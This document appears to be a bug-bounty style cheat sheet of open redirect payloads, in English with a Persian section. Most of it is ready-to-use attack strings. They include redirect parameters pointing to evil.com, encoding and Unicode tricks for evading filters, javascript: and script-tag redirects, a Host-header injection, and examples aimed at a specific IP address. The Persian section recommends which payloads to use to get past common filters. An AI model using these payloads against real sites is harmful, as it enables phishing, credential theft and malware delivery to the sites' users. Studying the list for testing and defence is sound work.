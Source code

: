 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: site.com/.../current_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com   <<<===

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 

===>>> victim.com/page?redirect=http://evil.com
===>>> http://victim.com/page?url=https://evil.com
===>>> http://victim.com/page?next=//evil.com
===>>> http://victim.com/page?return=%2F%2Fevil.com
===>>> http://victim.com/page?redirect=https%3A%2F%2Fevil.com%2F
===>>> http://victim.com/page?redirect=///evil.com
===>>> http://victim.com/page?redirect=\/\evil.com
===>>> http://victim.com/page?redirect=javascript:window.location='http://evil.com'
===>>> http://victim.com/page?redirect=%3Cscript%3Ewindow.location='http://evil.com'%3C%2Fscript%3E
===>>> http://victim.com/page?redirect=//evil.com%00
===>>> http://victim.com/page?redirect=https://evil.com%2F%5C
===>>>

3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: https://20.44.36.49//google%E3%80%82com , https://20.44.36.49//bing%E3%80%82com , https://20.44.36.49//yahoo%E3%80%82com

6 - payload: { opener.location="https://evil.com"}

===>>> example: email ===>>> inspect ===>>> console: opener.location="https://evil.com"

7 - payload: {forget password}

===>>> example: https://20.44.36.49/.../google.com


==================================================================

نکته مهم درباره payloadهای Open Redirect
۱. بسیاری از اپلیکیشنها کنترل میکنند که URL مقصد فقط به دامنههای مشخصی اشاره کند (مثل فقط دامنه داخلی)، پس برای bypass باید گاهی payloadهایی شبیه به اینها استفاده کرد:
```
http://example.com/redirect?url=//evil.com (دو اسلش بدون schema)

http://example.com/redirect?url=/\evil.com

http://example.com/redirect?url=http:///evil.com
```
استفاده از کدگذاریهای URL (URL encoding): %2F%2Fevil.com

استفاده از کدگذاریهای Unicode یا دور زدن با کاراکترهای Unicode یا کاراکترهای غیرمعمول

۲. آزمایش با ترکیبی از کدگذاریها و کاراکترهای ویژه:

```
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=////evil.com
redirect=//evil.com%00
redirect=//evil.com/
```
توصیه من برای payloadهای Open Redirect بروز شده:
از encoded URL ها استفاده کنید (%3A, %2F, %5C)

دستورات جاوااسکریپت را با <script> یا بدون آن به صورت encoded ارسال نکنید مگر بدانید که برنامه این را قبول میکند (زیرا بیشتر این حالتها XSS است)

از مسیرهای نامتعارف و شیوههای encode و Unicode جهت دور زدن فیلترهای معمول استفاده کنید.

نمونه payloadهای به روز و موثر:
```
redirect=https://evil.com
redirect=//evil.com
redirect=///evil.com
redirect=/%5Cevil.com
redirect=%2F%2Fevil.com
redirect=/%2Fevil.com
redirect=https:%2F%2Fevil.com
redirect=https:/\evil.com
redirect=%2F%2F%2Fevil.com
redirect=https://evil.com%00
redirect=https://evil.com%2F
redirect=%EF%BC%8E%EF%BC%8E%2Fevil.com   (دو نقطه fullwidth + اسلش)
```

==================================================================
## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
